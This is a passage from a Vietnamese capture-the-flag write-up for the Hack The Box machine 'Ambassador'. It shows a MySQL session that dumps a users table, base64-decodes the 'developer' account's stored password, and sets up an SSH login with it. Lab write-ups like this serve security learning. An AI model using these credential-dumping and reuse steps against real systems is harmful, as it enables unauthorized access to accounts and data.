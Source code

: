 Khai thác thông tin trong các bảng dữ liệu :

→ tìm được tài khoản “developer/YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==”

```bash
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 8.0.30-0ubuntu0.20.04.2 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
6 rows in set (0.206 sec)

MySQL [(none)]> use whackywidget;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [whackywidget]> show tables;
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
1 row in set (0.196 sec)

MySQL [whackywidget]> select * from users;
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
1 row in set (0.199 sec)

MySQL [whackywidget]>
```

Giải mã base64 vừa tìm được bên trên và thử đăng nhập vào dịch vụ SSH bằng tài khoản “developer”.

```bash
┌──(kali㉿kali)-[~/Desktop/hackthebox/Ambassador ]
└─$ echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d
anEnglishManInNewYork027468
```

